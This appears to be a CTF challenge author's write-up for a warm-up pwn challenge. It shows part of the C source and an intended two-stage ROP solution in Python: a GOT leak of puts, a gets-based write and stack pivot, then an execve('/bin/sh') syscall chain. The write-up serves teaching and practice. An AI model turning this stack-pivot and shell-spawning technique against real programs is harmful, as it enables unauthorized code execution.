 ```c
        init();
    }
    printf("Don't forget your cape! 0x%lx\n",one_punch+8);
    puts("Do you have what it takes to be the strongest hero?");
    vuln();
    puts("Guess not :(");
}
```

## Intended solution
The intended solution was to use the pop rdi gadget along with a pop rsp and leave gadget to pivot the stack after leaking a value from the GOT

you can construct a new stack using a call to gets with a writeable address(caluculated by the offset given to the player at the start). I decided to give people an address in the code base, as this was just supposed to be a warm-up. I wanted players to spend more time on other challenges that My partners and I made. 

## example ROP-chain
### stage 1
```python
payload = "A"*88
    #leak
    payload += p64(pop_rdi)
    payload += p64(exe.got["puts"]) #load puts into rdi
    payload += p64(puts_plt) #call puts

    #write new chain
    payload += p64(pop_rdi)
    payload += p64(base + 0x4600) #writeable clear segment in memory to write the 2nd part of about payload too
    payload += p64(gets_plt)

    #pivot stack to new chain
    payload += p64(pop_rbp)
    payload += p64(base + 0x4600)
    payload += p64(leave)
```

### stage 2
stage 2 is a standard rop chain that will trigger a syscall
```python
    payload2 =  p64(0)
    payload2 += p64(pop_rdi)
    payload2 += p64(base + 0x4660) #location of /bin/sh that we write
    payload2 += p64(pop_rsi)  #               |
    payload2 += p64(0)        #               |
    payload2 += p64(pop_rdx)  #               |
    payload2 += p64(0)        #               |
    payload2 += p64(pop_rax)  #               |
    payload2 += p64(59)       #               |
    payload2 += p64(syscall)  #               |
    payload2 += p64(0)*2      #               |
    payload2 += '/bin/sh'#<-------------------
```

